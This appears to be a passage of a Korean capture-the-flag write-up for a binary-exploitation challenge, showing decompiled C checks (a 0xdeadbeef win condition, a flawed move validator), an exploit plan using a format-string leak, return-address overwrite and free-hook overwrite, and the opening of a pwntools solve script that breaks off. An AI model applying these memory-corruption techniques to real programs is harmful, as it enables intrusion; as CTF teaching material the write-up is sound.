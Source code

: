 ### **is_end_check**

```C
int is_end_check()
{
  int result; // eax

  result = current_position;
  if ( !current_position )
  {
    result = half_check;
    if ( half_check == -559038737 )
    {
      result = puts("Good job!");
      is_end = 1;
    }
  }
  return result;
}
```

`current_position`가 0이며, `half_check = -559038737;` **0xdeadbeef**일 경우 Good job!을 출력하며 `is_end`를 1로 초기화한다.

### **valid_check** _(추가)_

```C
__int64 __fastcall valid_check(int a1)
{
  if ( a1 > 10 )
    puts("Max move 10!");
  return 10LL;
}
```

움직일 칸에 대한 입력 값을 검증하는데 출제자의 오류인지 무조건 **10**을 return 하게 되는 것을 뒤늦게 알았다.

## 문제 풀이

* **시나리오**

  1. FSB를 통한 Memory Leak

  2. RAO

  3. 실패 시 Free hook overwrite 유도를 위한 Free 함수

`half_check`를 위해 32칸을 move_right하고, `current_position`가 0이 되는 것을 위해 다시 32칸 move_left 하고자 한다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >>', str(1))
        p.sendlineafter('way >>', str(1))
        p.sendlineafter('move >>', str(1))
    p.sendlineafter('opt >>', str(1))
    p.sendlineafter('way >>', str(1))
    p.sendlineafter('move >>', str(1))

def left():
    for i in range(3):
        p.sendlineafter('opt >>', str(1))
```